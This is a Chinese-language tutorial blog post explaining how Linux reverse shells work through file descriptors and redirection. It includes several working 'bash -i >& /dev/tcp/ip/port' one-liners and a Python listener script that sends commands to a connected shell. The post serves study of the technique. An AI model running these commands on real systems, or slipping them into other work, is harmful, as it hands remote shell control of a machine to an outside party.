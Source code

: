 ```yaml
---
layout: post
title: 反弹shell到底是怎么一回事？
subtitle: Let's start learning!
tags: [study]
author: Sine
---
```



# 反弹shell到底是怎么一回事？



## Linux中的文件描述符

在linux系统中，一切都可以被看作是文件，且在linux中每打开一个文件都会给这个文件建立一个索引，方便我们对这个文件的查找和操作。

文件描述符就是这些已经打开的文件的索引，linux系统中默认存在三个文件描述符：0标准输入、1标准输出、2标准错误，再打开新的文件将会从3开始排序...



```
0  ：表示stdin标准输入

1  ：表示stdout标准输出

2  ：表示stderr标准错误
```



重定向符号

```
<  ：表示输入重定向

>  ：表示输出重定向

命令>文件：表示将标准输出重定向到文件
命令<文件：表示将标准输入重定向到文件
```



## nc反弹shell

### 命令讲解

服务器端，nc监听端口port

```
nc -lvp port
```



`bash -i`：交互式shell

`>&`：将标准输出和标准错误绑定，重定向到文件描述符

`/dev/tcp/ip/port`：建立tcp连接，用文件描述符来标识

`0>&1`：标准输入和标准输出结合（0<&1同理，也是将两者结合）使得二者指向同一文件描述符

```
bash -i >& /dev/tcp/ip/port 0>&1
```

服务器监听8009端口

客户端发起连接，通过/dev/tcp/ip/port进行连接，传输数据

在服务端输入的内容作为标准输入传输到客户端，bash -i交互式shell在接收到标准输入的时候，会执行标准输入的内容，执行得到的结果为标准输出，>&将标准输出和标准错误重定向到/dev/tcp/ip/port，0>&1将标准输入和标准输出结合，所以实际上标准输入也是重定向到/dev/tcp/ip/port，服务端接收到标准输出，输出到屏幕中。

![image-20231024134907941](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241349011.png)



举例：

客户端连接服务端8009端口

![image-20231024021555177](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310240215210.png)



服务端接收到连接，输入命令，被传输到服务端，执行后标准输入和标准输出都返回

![image-20231024141324091](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241413123.png)



其实`bash -i >& /dev/tcp/ip/port 0>&1 `和`bash -i < /dev/tcp/ip/port 1<&0 2<&0`等价

`<`将标准输入重定向到`/dev/tcp/ip/port`，`1<&0 2<&0`将标准输出和标准错误与标准输入结合，所以标准输出和标准错误实际上也是重定向到`/dev/tcp/ip/port`

```
bash -i < /dev/tcp/ip/port 1<&0 2<&0
```

![image-20231024141053378](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241410409.png)

![image-20231024141205703](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241412730.png)

`bash -i > /dev/tcp/ip/port 0<&1 2<&1`等，还有很多种写法，实际上都是等价的。



### 那标准输入和标准输出之间是否有关系？

举个例子：

分别在服务端ip/port1和ip/port2建立监听

通过客户端建立两个连接`/dev/tcp/ip/port1`、`/dev/tcp/ip/port2`

`>&`将标准输出和标准错误重定向到`/dev/tcp/ip/port1`，`0</dev/tcp/ip/port2`将标准输入重定向到`/dev/tcp/ip/port2`，即在ip/port2中输入命令，经过客户端的bash执行之后，会在ip/port1中输出

客户端命令：

```
bash -i >& /dev/tcp/ip/port1 0</dev/tcp/ip/port2
```

建立连接，将标准输入重定向到443，标准输出和标准错误重定向到8009

![image-20231024160729052](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241607073.png)

在443输入命令，作为标准输入传到客户端

![image-20231024160807582](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241608605.png)

客户端bash执行之后将标准输出和标准错误重定向给8009

![image-20231024160754191](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241607218.png)



所以，实际上输出和输入是独立的



至于为什么会把![image-20231024162930020](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241629043.png)输出，是因为bash将这一部分认为是标准错误，所以会输出到屏幕，举个例子：

只把标准错误进行重定向

![image-20231024163300929](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241633952.png)

输入命令

![image-20231024163235236](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241632264.png)

会发现这部分内容被输出

![image-20231024163329828](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241633857.png)

## nc在反弹shell的过程只充当什么角色

当我们用脚本起一个监听端口，收发数据的服务

```python
import socket #导入库
import threading
import time
def TCPServer(ip="0.0.0.0",port=8009):
    server=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    server.bind((ip,port))
    server.listen(5)
    print("[*] Listen on %s:%d"%(ip,port))
    def chuli(a):
        a.send("whoami\n".encode())
        time.sleep(0.2)
        requst=a.recv(1024).decode() #获取信息
        cmdOkStr=requst.split("\n")
        cmdLine=cmdOkStr[2]
        while 1:
            print(cmdLine,end="")
            cmdstr=input()+"\n"
            if(cmdstr=="\n" or cmdstr==None):
                continue
            else:
                a.send(cmdstr.encode())
                time.sleep(0.2)
                requst=a.recv(1024).decode() #获取信息
                cmdOkStr=requst.split("\n")
                cmdLine=cmdOkStr[2]
                result=cmdOkStr[1]
                print("\n"+result)
            #print(cmdOkStr)#打印信息#a.close() #关闭与客户端的链接
    while True:
        client,addr=server.accept() #如果有客户端链接
        print("[*]成功建立连接于 %s:%d" % (addr[0],addr[1]))
        handler=threading.Thread(target=chuli,args=(client,)) #开启线程处理连接
        handler.start()
try:
    TCPServer()
except Exception as e:
    print("[*]Error!",e)
```

发现也能成功完成反弹shell

![image-20231024153720888](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/202310241537925.png)

总之，nc在反弹shell中只是作为一个服务器







